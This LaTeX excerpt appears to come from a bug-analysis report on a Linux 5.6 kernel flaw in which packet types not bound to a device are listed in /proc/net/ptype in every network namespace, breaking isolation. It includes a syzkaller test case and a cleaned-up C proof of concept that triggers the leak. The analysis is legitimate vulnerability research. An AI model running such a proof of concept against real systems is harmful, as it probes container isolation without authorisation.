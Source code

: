 \documentclass[10pt,twocolumn,a4paper]{article}
\begin{document}
\subsection{Bug Description}
Packets that are bound to devices are only showed in the namespace of the device. However if packet
types are not bound to a device they have no reference to a namespace. This means they  are shown in all network
namespaces. This allows a process to create a packet type in a network namespace. A second
process can see this packet type in a different network namespace thus breaking isolation.


\subsection{Bug Reproduction}
The analysis is done on the customized kit kernel 5.6 which was from the artifact repository\cite{2}.
Sadly the kernel that kit used is not suitable for custom debugging.
The test case that caused the bug given by syzcaller is the following: 
\begin{lstlisting}{caption=sender test case}
r0 = socket$packet(0x11, 0x2, 0x300)
bind$packet(r0, 
    &(0x7f0000000100)={0x11, 0xc, 0x0, 0x1, 0x0, 0x6,
    @multicast}, 0x14)
bind$packet(r0, 
&(0x7f0000000040)={0x11, 0x7, 0x0, 0x1, 0x0, 0x6,
@broadcast}, 0x14)
\end{lstlisting}
The receiver test case can also be taken from syzcaller but the process is tedious and error prone.
We already know that the leakage happens in the /proc/net/ptype. Thus we can use cat.
Syzcaller provides tools to convert the test case to C code. 
Out of the box this C code does is ugly and needs to be modified a bit to reproduce the bug.
After modifing and compiling we can run the test case manualy  (with unshare -n and root if this
is out of scope). After the code is run one can see the following
in /proc/net/ptype:
\begin{lstlisting}
Type Device      Function
0800          ip_rcv
0806          arp_rcv
0007          packet_rcv // Our POC
86dd          ipv6_rcv
\end{lstlisting}
The POC works. Sadly syzcaller does not comply with any coding standards and thus the code is
not very readable. However using strace, r2\cite{29} and gdb\cite{28} we can rewrite the code easily and get this
human readable version:
\begin{lstlisting}{caption=cleaned up poc}
/*...*/
int main() {
    struct sockaddr  a = {.sa_family = AF_PACKET,.sa_data= "\000\f\000\000\000\000\001\
    \000\000\000\000\000\000"
    };
    struct sockaddr  b = {.sa_family = AF_PACKET,.sa_data= "\000\a\000\000\000\000\001\
    \000\000\006\377\377\377\377"
    };
    int sock = socket(AF_PACKET, SOCK_DGRAM, htons(ETH_P_ALL));

    bind(sock, &a, 20);
    bind(sock , &b, 20);
    return 0;
}
\end{lstlisting}
While this might not be the exact code that syzcaller gave out, it still
produces the same results in /proc/net/ptype. Reducing the test case it turns out that only one bind is necessary to trigger the bug. The data in the sockaddr struct seems to be arbitrary
as long as it does not describe a valid device. 
\end{document}
